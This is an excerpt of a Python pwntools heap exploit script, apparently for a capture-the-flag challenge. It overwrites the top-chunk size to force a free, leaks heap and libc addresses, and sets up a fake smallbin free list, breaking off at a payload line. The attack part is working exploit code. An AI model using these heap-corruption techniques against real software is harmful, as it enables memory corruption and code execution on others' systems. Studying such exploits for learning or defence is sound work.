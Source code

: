 ```python
    return res

def edit(index, data):
    p.sendline(b'3')
    p.sendlineafter(b"to:", str(index).encode())
    p.sendafter(b"out:", data)
    menu()




# Cause a free due to top chunk extension
size = 0x400 - 0x290 - 8                # Calculate the size needed to align top chunk
info("Mallocing %s bytes" % hex(size))
malloc(size, b'A'*size)                 # malloc() and fill with data to allow for strlen() out of bounds write

info("Overwriting top chunk size with 0xc01")
edit(0, b'B'*size+p16(0xc01)+p8(0))     # Overwrite top chunk size

malloc(0x1000, b'GiveMeAFree')          # malloc() large data to trigger BRK()
                                        # And cause a free on previous


# Get info leaks
info("Calling malloc to pad up until HEAP pointer")
malloc(0x61, b'C'*17)                                       # Pad up until heap pointer
                                                            # NOTE: The null-byte has to be overwritten
                                                            # to allow for "puts()" to read the address.

heap_leak = int(see(2)[17:][::-1].hex()+'00', 16) - 0x400   # Read chunk to get heap leak
info("Heap leak: %s" % hex(heap_leak))

info("Calling malloc to pad up until Libc pointer")
malloc(0x61, b'D'*8)                                        # Pad up until the libc pointer
libc.address = int(see(3)[8:][::-1].hex(), 16) - 0x1cccc0   # Read pointer
ld = libc.address + 0x1dd000                                # Calculate relative offset to LD
info("Libc leak: %s" % hex(libc.address))
info("Ld leak: %s" % hex(ld))


# Prepare victim chunk and resize the unsorted free chunk to fit in to a smallbin
info("Mallocing new chunk to prepare fake free list")
malloc(0x9f8, b'E'*0x9f8)                       # Victim chunk, offset is Heap_leak + 0x4f0

fake_free = heap_leak + 0x600                   # Size 0xd0 (26*8)
buf2 = heap_leak + (0x600 + 0xe0)               # Size 0x20 (4*8)
buf1 = heap_leak + (0x600 + 0xe0) + 0x20        # Size 0x20 (4*8)

info("Fake free location: %s" % hex(fake_free))

info("Buf2 location %s" % hex(buf2))
info("Buf1 location %s" % hex(buf1))

info("Mallocing 1200 bytes to sort unsorted bin...")
malloc(1200, b'F'*1200)                         # malloc() a large chunk to force libc to sort
                                                # the unsorted free chunk in to small bins


# Set the BK of the smallbins free chunk to Buf1
payload = b'F'*(0x9f8+0x8)      # Pad the chunk to abuse the 8-byte alignment
```